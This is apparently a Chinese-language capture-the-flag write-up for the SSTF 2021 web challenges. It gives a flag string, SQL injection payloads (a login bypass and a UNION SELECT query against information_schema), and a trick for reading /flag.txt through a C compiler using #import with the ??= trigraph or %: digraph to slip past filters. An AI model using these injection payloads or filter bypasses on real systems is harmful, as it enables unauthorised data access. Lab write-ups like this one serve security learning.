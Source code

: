 # Flag Submission

`SCTF{It_15_tim3_t0_hack!!}`



# SQLi 101

```
?id=admin'%23&pw=1
```



# SQLi 102

```
?searchkey=-1'union select 1,group_concat(column_name),3,4,5,6,7,8 from information_schema.columns  where table_name = 'findme'  %23
```

​	

# SW Expert Academy

一道离谱的题目，输入C程序然后会运行：

```shell
 $ gcc -o binary code.c -std=c99
```



f12告诉了flag在`/flag.txt`里面。然后ban了很多东西，没法命令执行和文件读取。GG。



这里利用了文件导入，或者说头文件叭。一般只想到`include`，但是`include`和`#`都被ban了，分别绕过。

绕过`include`用`import`：

> \#import指令用于从一个类型库中结合信息。该类型库的内容被转换为C++类,主要用于描述COM界面。
>
> 语法
>
> \#import "文件名" [属性]
>
> \#import <文件名> [属性]

gcc既能c，也能c++，所以import可以用。

`#`的绕过就用了一个非常离谱的东西，参考链接：

https://en.wikipedia.org/wiki/Digraphs_and_trigraphs



用`??=`或者`%:`来替换成`#`。

所以这样都可以：

```c++
??=import "/flag.txt"
%:import "/flag.txt"
```

利用报错的信息来得到flag：

![image-20210817235357923](Hacker's Playground(SSTF) 2021 Web.assets/image-20210817235357923.png)



# Poxe Center

没做出来。是个postgre的SQL注入，最后没找到flag在哪。

暂时记到这里，这题等WP再复现了，看看flag到底在哪。
